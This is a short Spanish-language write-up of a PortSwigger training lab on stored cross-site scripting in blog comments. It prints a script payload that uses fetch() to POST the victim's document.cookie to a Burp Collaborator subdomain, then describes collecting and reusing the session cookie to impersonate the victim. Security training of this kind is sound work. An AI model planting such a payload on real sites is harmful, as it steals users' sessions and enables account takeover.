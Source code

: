 # Exploiting cross-site scripting to steal cookies

Aqui es importante conocer de antemano el funcionamiento del **burp collaborator** 

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Este lab nos muestra el impacto de una vulnerabilidad de xss. Posteamos un comment con el siguiente codigo:

```text
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Este se envia a nuestro burp collaborator. El subdomain se extrae del mismo collaborator: 9gq1dud084zohnming0dlccaa1gs4h.burpcollaborator.net fue el mio

![](../../../.gitbook/assets/imagen%20%28938%29.png)

Le damos poll now y trae lo que recibe.

De esto nos quedamos con su session

![](../../../.gitbook/assets/imagen%20%28939%29.png)

Luego nos quedamos con esa session para nosotros a la hora de hacer nuestra peticion.

![](../../../.gitbook/assets/imagen%20%28935%29.png)







